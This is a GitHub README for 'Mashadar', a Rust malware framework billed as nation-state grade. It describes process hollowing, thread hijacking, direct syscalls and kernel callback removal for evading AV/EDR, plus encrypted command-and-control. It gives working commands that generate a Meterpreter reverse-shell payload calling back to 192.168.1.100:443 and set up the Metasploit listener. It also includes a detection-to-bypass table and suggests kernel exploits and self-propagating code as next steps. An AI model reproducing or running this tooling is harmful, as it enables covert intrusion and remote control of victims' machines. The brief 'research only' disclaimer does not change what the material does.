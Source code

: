 # 🖤 Mashadar – The Ultimate Nation-State Malware Framework

_"There is something worse than the Shadow. Worse than Darkfriends and Forsaken."_  
_"It does not serve the Dark One. It kills everything."_

## 🚀 Overview
**Mashadar** is a **stealthy, in-memory malware framework** designed for **nation-state level evasion**.  
It implements **process hollowing, reflective thread hijacking, direct syscalls, kernel callback removal, and AES-encrypted C2 communications** to maximize stealth.

✅ **No files written to disk**  
✅ **Executes inside legitimate processes**  
✅ **Bypasses AV/EDR detection with direct syscalls**  
✅ **Encrypted C2 for payload delivery**  
✅ **Ideal for red teaming & advanced adversary simulation**  

---

## 📂 Project Structure

```plaintext
mashadar/
│── src/
│   ├── main.rs          # Entry point (Process Hollowing + Execution)
│   ├── hollowing.rs     # Process Hollowing via NtUnmapViewOfSection
│   ├── syscalls.rs      # Direct Syscalls (EDR Bypass)
│   ├── encryption.rs    # AES Shellcode Encryption (Pre-Execution)
│   ├── stealth.rs       # Kernel Callback Removal + Anti-Debugging
│   ├── c2.rs            # Encrypted Command & Control (C2) Comms
│── shellcode/
│   ├── payload.bin      # Encrypted shellcode (Cobalt Strike, Meterpreter, etc.)
│── README.md
│── Cargo.toml           # Rust dependencies
```

---

## 🔥 **Execution Flow**
Mashadar follows a **multi-stage attack process**. Below is a high-level **Mermaid.js sequence diagram** of its execution:

```mermaid
sequenceDiagram
    participant Attacker
    participant Mashadar
    participant TargetProcess as "Target Process (e.g., svchost.exe)"
    participant C2Server as "C2 Server"

    Attacker->>Mashadar: Run executable
    Mashadar->>TargetProcess: Locate existing threads
    Mashadar->>TargetProcess: Hijack thread & inject shellcode
    Mashadar->>C2Server: Request encrypted payload
    C2Server->>Mashadar: Send AES-encrypted shellcode
    Mashadar->>Mashadar: Decrypt & execute shellcode
    Mashadar->>TargetProcess: Modify thread execution to run payload
    TargetProcess->>C2Server: Establish C2 communication
```

---

## 🏗️ **Installation & Setup**

### **1️⃣ Install Rust**
```sh
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

### **2️⃣ Clone the Repository**
```sh
git clone https://github.com/yourname/mashadar.git
cd mashadar
```

### **3️⃣ Install Dependencies**
```sh
cargo build --release
```

---

## 💀 **How Mashadar Works**
Mashadar executes shellcode stealthily using **three core techniques**:

### **🔹 1. Process Hollowing**
- **Creates a legitimate process (e.g., svchost.exe)**
- **Unmaps its memory using `NtUnmapViewOfSection`**
- **Injects shellcode into the hollowed process**
- **Resumes execution with malicious payload**

```mermaid
graph TD;
    A[Create Suspended Process] -->|Step 1| B[Unmap Executable Memory]
    B -->|Step 2| C[Inject Shellcode]
    C -->|Step 3| D[Modify Execution Context]
    D -->|Step 4| E[Resume Process with Malicious Code]

### **🔹 2. Reflective Thread Hijacking**
Instead of creating a new thread (which triggers AV alerts), Mashadar:
1. **Suspends an existing thread** in a running process.
2. **Overwrites the instruction pointer (RIP) to point to shellcode**.
3. **Resumes execution**—seamlessly hijacking the process.

```mermaid
graph TD;
    A[Find Target Process] -->|Step 1| B[Find Suspended Thread]
    B -->|Step 2| C[Inject Shellcode]
    C -->|Step 3| D[Modify Thread Context]
    D -->|Step 4| E[Resume Execution]
```

### **🔹 3. Encrypted C2 Communication**
- Uses **AES encryption** to fetch payloads.
- Ensures **network traffic looks benign**.
- **Prevents signature-based detection** of raw shellcode transfers.

```mermaid
graph TD;
    A[Request Payload] -->|AES Encrypted| B[C2 Server]
    B -->|AES Encrypted Shellcode| C[Mashadar]
    C -->|Decryption| D[Execute Shellcode]
```

---

## 🔑 **Usage Instructions**
### **📝 Step 1: Encrypt Shellcode**
Before running Mashadar, encrypt your payload:

```sh
python -c "import os; os.system('msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f raw -o shellcode/payload.bin')"
```

### **🚀 Step 2: Run Mashadar**
```sh
cargo run --release
```

### **📡 Step 3: Receive Connection**
If using a **Metasploit C2**, start a listener:
```sh
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 192.168.1.100
set LPORT 443
run
```

---

## 🔍 **Detection & Evasion**
### **🛡️ How Mashadar Bypasses AV/EDR**
| **Detection Technique**         | **Bypass Method**                         |
|---------------------------------|------------------------------------------|
| Signature-based detection       | Polymorphic encryption & AES shellcode  |
| Behavior-based heuristics       | Reflective thread hijacking             |
| API Hooking (EDR Monitoring)    | Direct Syscalls (No `ntdll.dll` hooks)  |
| Process creation monitoring     | Process Hollowing                       |
| Network-based detection         | AES-encrypted C2 traffic                |

---

## 🛠️ **Feature Breakdown**
### **Reflective Thread Hijacking**
✅ **No new threads created**  
✅ **Executes within an existing process**  
✅ **Evades behavioral heuristics**  

### **Process Hollowing**
✅ **Completely replaces a target process (e.g., `svchost.exe`)**  
✅ **Executes shellcode inside a legitimate Windows process**  
✅ **Avoids new process creation detection**  

### **Direct Syscalls**
✅ **Avoids `ntdll.dll` hooks from EDR**  
✅ **Calls Windows APIs directly from memory**  
✅ **Bypasses common AV detections**  

### **Kernel Callback Removal**
✅ **Disables forensic monitoring**  
✅ **Prevents process execution tracking**  

### **AES-Encrypted C2**
✅ **All network traffic is AES-encrypted**  
✅ **Payload updates received via secure channel**  

---

## **📌 Next Steps**
Want to take it **even further**?
- **Kernel Exploits** – Inject into **Ring 0** for full system compromise.
- **Secure Boot Bypass** – **Own the machine before the OS starts.**
- **Hypervisor Malware** – Run undetected **below the OS**.
- **Self-Propagating Code** – Fully autonomous replication **across networks**.

---

## **⚠️ Legal Disclaimer**
This framework is for **research and educational purposes only.**  
Do **not** use for unauthorized access or malicious activities.  
